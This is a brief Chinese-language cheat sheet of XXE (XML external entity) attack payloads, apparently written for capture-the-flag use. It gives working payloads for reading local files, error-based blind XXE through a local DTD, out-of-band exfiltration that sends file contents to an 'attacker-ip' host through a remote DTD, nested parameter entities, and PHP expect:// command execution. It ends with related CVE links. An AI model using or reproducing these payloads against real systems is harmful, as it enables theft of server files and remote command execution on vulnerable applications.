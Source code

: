 # XXE

## 外部实体 (libxml < 2.90)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```


## Blind-XXE 引用本地DTD

利用 ISOamsa

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]
```

## Blind-XXE 引用外部DTD

XML payload

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://<attacker-ip>/a.dtd">  
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```

DTD payload

```xml
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://attacker-ip?%file;'>">
%start;
```


## 嵌套参数实体

```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
<message>10</message>
```

## except:// PHP扩展协议协议RCE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "expect://id">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```

## 相关cve

- CVE-2014-3529 apache poi < 3.10.1 https://xz.aliyun.com/t/6996#toc-3

- CVE-2019-12415 https://b1ue.cn/archives/241.html


## 参考资料

https://xz.aliyun.com/t/3357

https://www.freebuf.com/vuls/207639.html
